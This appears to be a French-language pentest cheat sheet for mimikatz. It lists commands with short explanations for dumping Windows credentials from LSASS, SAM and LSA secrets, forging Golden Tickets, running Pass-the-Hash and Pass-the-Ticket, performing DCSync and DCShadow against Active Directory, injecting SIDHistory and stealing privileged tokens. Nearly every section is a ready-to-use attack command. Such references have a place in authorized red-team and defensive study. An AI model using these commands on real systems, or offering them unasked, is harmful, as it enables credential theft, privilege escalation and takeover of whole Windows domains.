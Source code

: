 https://github.com/gentilkiwi/mimikatz

### 😱 SekurLSA (Security Local Security Authority)

#### Récupérer les credentials enregistrés dans Credentials Manager

```bash
sekurlsa::credman
```

Affiche les identifiants et mots de passe enregistrés par les utilisateurs via le gestionnaire d’identifiants Windows.

#### Afficher les clés de chiffrement Kerberos

```bash
sekurlsa::ekeys
```

Liste les clés de chiffrement Kerberos stockées en mémoire, utiles pour certaines attaques de type **Pass-The-Key**.

#### Récupérer les credentials Kerberos des utilisateurs actuellement connectés

```bash
sekurlsa::kerberos
```

Affiche les informations d’authentification Kerberos chargées en mémoire.

#### Extraire les credentials du compte `krbtgt` (nécessaire pour un Golden Ticket)

```bash
sekurlsa::krbtgt
```

Permet d’extraire les informations du compte `krbtgt`, utilisé pour générer des tickets d’authentification.

#### Lister les credentials SSP (Security Support Provider)

```bash
sekurlsa::ssp
```

Affiche les informations stockées par les fournisseurs d’authentification Windows.

#### Récupérer les credentials Wdigest

```bash
sekurlsa::wdigest
```

Affiche les mots de passe en **clair** si la politique de sécurité Windows ne les protège pas correctement.

#### Lister tous les credentials et hash en mémoire

```bash
sekurlsa::logonpasswords
```

Commande la plus utilisée pour extraire les identifiants et hash de toutes les sessions utilisateur actives.

#### Travailler avec un fichier minidump LSASS

```bash
sekurlsa::minidump
```

Charge un fichier **minidump** (copie mémoire de LSASS) pour extraire des informations hors ligne.

> [!Astuce]
> À utiliser après avoir dumpé LSASS avec `procdump` ou `nanodump`.

#### Exécuter une attaque "Pass-The-Hash"

```bash
sekurlsa::pth /user /domain /ntlm #/rc4 /run
```

Permet de se connecter à un système distant en utilisant le **hash NTLM** au lieu du mot de passe.

#### Lister les tickets Kerberos en mémoire

```bash
sekurlsa::tickets #/export
```

Affiche tous les tickets Kerberos actifs et permet leur exportation pour **Pass-The-Ticket**.

---
### 🐕 Kerberos (Attaques et manipulations)

#### Créer un Golden Ticket

```bash
kerberos::golden /domain /sid /sids /user /krbtgt /aes128 #/groups /ticket /id /aes256
```

Permet de générer un **Golden Ticket** pour se donner des accès persistants sur le domaine.

> [!Astuce]
> 🔹 **Explication des paramètres** :
> 
> - `/domain` → Domaine cible
> - `/sid` → SID du domaine
> - `/user` → Nom de l’utilisateur cible
> - `/groups` → RID des groupes de l’utilisateur
> - `/krbtgt` → Hash NTLM du compte `krbtgt`
> - `/ticket` → Sauvegarde du ticket `.kirbi`
> - `/id` → RID de l’utilisateur cible
> - `/aes128` ou `/aes256` → Clé de chiffrement

#### Lister les tickets Kerberos en mémoire

```bash
kerberos::list
```

Affiche tous les tickets Kerberos stockés dans la session active.

#### Pass-The-Ticket (PTT)

```bash
kerberos::ptt /filename:C:\tiket.kirbi
```

Charge un ticket `.kirbi` dans la mémoire pour utiliser une identité sans authentification.

#### Dumper le Ticket Granting Ticket (TGT) de l’utilisateur actuel

```bash
kerberos::tgt
```

Récupère le TGT actif et permet de l’utiliser dans des attaques **Pass-The-Ticket**.

---
### 😱 LSADUMP (Dump des bases de données de sécurité Windows)

#### DCShadow (Simulation d’un Domain Controller)

```bash
lsadump::dcshadow
```

Permet d’imiter un **contrôleur de domaine** et injecter des objets malveillants dans Active Directory.

#### DCSync (Vol des hash NTLM d’Active Directory)

```bash
lsadump::dcsync /all #/user /domain /csv /dc
```

Exfiltre les **hash NTLM des comptes Active Directory** comme si le serveur nous les synchronisait.

💡 **Exemple pour récupérer le hash NTLM de l’admin du domaine** :

```bash
lsadump::dcsync /domain:contoso.local /user:Administrator
```

#### Lister les secrets LSA

```bash
lsadump::lsa /inject
```

Récupère les **secrets LSA**, contenant des informations d’authentification et des clés de session.

#### Extraire les clés de confiance entre domaines

```bash
lsadump::trust /patch
```

Permet d’obtenir les **clés de confiance** entre domaines pour attaquer des **forêts Active Directory**.

#### Dumper le fichier SAM (Stocke les comptes locaux et leurs hash NTLM)

```bash
lsadump::sam
```

Récupère les **hash des comptes locaux** sur une machine Windows (hors domaine).

> [!Astuce]
> Combine avec `hashcat` pour tenter un bruteforce des mots de passe.

#### Extraire les secrets stockés dans LSA

```bash
lsadump::secrets
```

Affiche les **secrets** stockés par LSA, tels que les **mots de passe WiFi**, les **clés BitLocker**, et plus encore.

---
### 📝 SID (Security Identifier)

#### Ajouter un SID au SIDHistory d’un objet Active Directory

```bash
sid::add /sam:$user /new:$newSID
```

Ajoute un **SID** à un utilisateur pour lui donner de nouveaux privilèges.

#### Modifier le SID d’un utilisateur

```bash
sid:modify /sam:$user /new:$newSID
```

Change le **SID** d’un compte utilisateur pour lui donner d’autres permissions.

---
### 💰 Token (Élévation de privilèges via tokens d’accès)

#### Tenter une élévation de privilèges via un token

```bash
token::elevate
token::elevate /domain
```

Essaie de voler un **jeton de session d’un utilisateur privilégié** pour exécuter des commandes en tant qu’administrateur.